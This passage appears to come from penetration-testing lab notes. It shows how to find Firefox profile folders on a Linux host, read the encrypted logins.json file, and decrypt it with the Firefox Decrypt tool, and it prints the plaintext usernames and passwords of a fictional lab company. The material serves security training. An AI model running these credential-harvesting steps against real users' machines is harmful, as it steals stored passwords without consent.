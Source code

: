 <mark style="color:orange;">**Firefox Stored Credentials**</mark>

```shell-session
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

{% code fullWidth="true" %}
```shell-session
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "httpRealm": null,
      "formSubmitURL": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...1liQiqBBAG/8/UpqwNlEPScm0uecyr",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
      "guid": "{412629aa-4113-4ff9-befe-dd9b4ca388e2}",
      "encType": 1,
      "timeCreated": 1643373110869,
      "timeLastUsed": 1643373110869,
      "timePasswordChanged": 1643373110869,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```
{% endcode %}

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

<mark style="color:orange;">**Decrypting Firefox Credentials**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```
